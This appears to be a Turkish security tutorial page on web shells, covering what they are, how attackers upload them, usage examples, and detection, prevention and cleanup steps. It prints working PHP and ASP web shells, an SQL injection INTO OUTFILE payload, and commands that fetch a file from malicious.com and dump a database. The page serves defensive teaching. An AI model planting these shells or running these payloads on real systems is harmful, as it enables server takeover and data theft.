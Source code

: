 ### Backdoor Yükleme: Web Shell'ler (PHP/ASP)  
Web shell'ler, sunucuda yetkisiz erişim sağlamak için kullanılan kötü amaçlı betiklerdir. Bir saldırgan, bu dosyaları sunucuya yükleyerek komut çalıştırma, dosya yönetimi veya veri çalma gibi işlemler yapabilir. İşte detaylı bir açıklama:

---

#### **1. Web Shell Nedir?**  
- **Tanım**: PHP, ASP, JSP gibi sunucu tarafı dilleriyle yazılmış, saldırganlara uzaktan kontrol imkanı sağlayan bir backdoor türüdür.  
- **Örnek Kodlar**:  
  - **PHP**:  
    ```php
    <?php 
    if(isset($_GET['cmd'])) { 
        system($_GET['cmd']); 
    } 
    ?>
    ```  
    Bu kod, `?cmd=ls` parametresiyle GET isteği alındığında sunucuda komut çalıştırır (örneğin, `ls` ile dizin listeleme).  
  - **ASP**:  
    ```asp
    <%
    Set cmd = Server.CreateObject("WScript.Shell")
    Response.Write(cmd.Exec(Request.QueryString("cmd")).StdOut.ReadAll())
    %>
    ```  
    ASP tabanlı bir web shell, `?cmd=dir` ile Windows komutları çalıştırır.  

---

#### **2. Web Shell Nasıl Yüklenir?**  
Saldırganlar, web shell yüklemek için şu yöntemleri kullanır:  

##### **a) Dosya Yükleme Zaafiyetleri**  
- **Açıklama**: Güvensiz dosya yükleme formları, .php veya .asp uzantılı dosyaları denetlemezse kullanılır.  
- **Örnek Senaryo**:  
  - Bir web sitesi, kullanıcıların profil resmi yüklemesine izin veriyor ancak uzantı kontrolü yapmıyor.  
  - Saldırgan, `shell.php` adlı bir dosya yükler ve bu dosyayı `http://site.com/uploads/shell.php` adresinden çalıştırır.  

##### **b) SQL Injection ile Dosya Yazma**  
- **Açıklama**: SQL veritabanında `INTO OUTFILE` komutu kullanılarak sunucuya dosya yazılabilir.  
- **Örnek Sorgu**:  
  ```sql
  UNION SELECT "<?php system($_GET['cmd']); ?>", NULL INTO OUTFILE "/var/www/html/shell.php"
  ```  

##### **c) Sunucu Erişim Bilgilerinin Ele Geçirilmesi**  
- FTP, SSH veya panel şifreleri çalınırsa, saldırgan doğrudan web shell’i manuel olarak yükler.  

---

#### **3. Web Shell Kullanım Senaryoları**  
- **Komut Çalıştırma**:  
  ```bash
  curl http://site.com/shell.php?cmd=whoami  # Sunucuda kimlik bilgisini öğrenme
  ```  
- **Dosya İndirme**:  
  ```bash
  wget http://site.com/shell.php?cmd=wget%20http://malicious.com/backdoor.exe
  ```  
- **Veritabanına Erişim**:  
  ```bash
  curl http://site.com/shell.php?cmd=mysqldump%20-u%20root%20-p%20veritabani
  ```  

---

#### **4. Tespit ve Önleme Yöntemleri**  

##### **a) Tespit**  
- **Dosya İzleme**: `/uploads/`, `/tmp/` gibi dizinlerde şüpheli dosyaları kontrol edin.  
- **Log Analizi**:  
  - Apache: `tail -f /var/log/apache2/access.log | grep "shell.php"`  
  - IIS: `%SystemDrive%\inetpub\logs\LogFiles\W3SVC1\`  
- **Araçlar**:  
  - **Lynis** (Sunucu taraması),  
  - **Rkhunter** (Rootkit tespiti).  

##### **b) Önleme**  
1. **Dosya Yükleme Güvenliği**:  
   - Uzantı denetimi (`.jpg`, `.png` gibi beyaz liste kullanın).  
   - Dosyaları web kök dizini dışında saklayın.  
2. **Kod İncelemesi**:  
   - `system()`, `exec()`, `eval()` gibi tehlikeli fonksiyonları kontrol edin.  
3. **WAF (Web Uygulama Güvenlik Duvarı)**:  
   - ModSecurity ile şüpheli istekleri engelleyin.  
4. **Güncellemeler**:  
   - PHP/ASP sürümlerini ve eklentileri güncel tutun.  

---

#### **5. Karşılaşılabilecek Zorluklar ve Çözümler**  
- **Zorluk 1**: Obfuscate edilmiş (karmaşıklaştırılmış) web shell’lerin tespiti.  
  - **Çözüm**: Statik analiz araçları (örn. **YARA kuralları**) veya davranış tabanlı tespit.  
- **Zorluk 2**: Saldırganın sunucuda birden fazla backdoor bırakması.  
  - **Çözüm**: Tüm dosya sistemini tarayın ve yedeklerden temiz bir kurulum yapın.  

---

#### **6. Pratik Örnek: Web Shell Temizleme Adımları**  
1. Sunucuya erişimi kesin (Ağ bağlantısını kapatın).  
2. `find /var/www/html -name "*.php" -mtime -1` ile son 24 saatte oluşturulan PHP dosyalarını bulun.  
3. Şüpheli dosyaları silin veya karantinaya alın.  
4. Veritabanı şifrelerini ve SSH anahtarlarını değiştirin.  
5. Günlükleri inceleyerek saldırı vektörünü belirleyin (örn: [SQL Injection](./17.md)).  

